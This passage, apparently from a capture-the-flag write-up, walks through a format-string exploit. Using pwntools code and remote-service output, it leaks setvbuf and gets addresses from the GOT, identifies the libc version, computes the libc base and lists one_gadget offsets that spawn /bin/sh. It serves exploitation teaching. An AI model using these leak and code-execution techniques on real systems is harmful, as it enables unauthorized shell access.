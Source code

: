 `base + 0x202068` is the address of the `setvbuf` entry in the GOT, so
reading a string from there gets us a pointer to the location of `setvbuf` in
libc.

We can then jump back to `main` again using the same code as above:

```python
payload = ...
p.sendline(payload)
```

Then we can leak another function, this time `gets`:

```python
p.recvline_contains('name?')
p.sendline('%7$s    ' + p64(base + 0x202060))
line = p.recvline()
gets = line.split()[2]
gets = u64(gets + '\00' * (8 - len(gets)))
log.info('gets: ' + hex(gets))
```

Now we have the addresses of two functions! Now, we can switch to using the
remote service and extract the libc version.

```
[+] Opening connection to 206.81.24.129 on port 1339: Done
[*] setvbuf: 0x7f5abf3b6e70
[*] gets: 0x7f5abf3b5d80
```

Running these through a [libc database](https://github.com/niklasb/libc-database)
gets us the libc version: libc6_2.23-0ubuntu10_amd64.so.

Now we can work out the exact offset of `setvbuf` from the start of libc.

```python
libc = setvbuf - 0x6fe70
```

Now we just need somewhere in libc to jump to! Using the wonderful
[one_gadget](https://github.com/david942j/one_gadget) we can extract a call
to /bin/sh.

```
$ one_gadget ./libc6_2.23-0ubuntu10_amd64.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
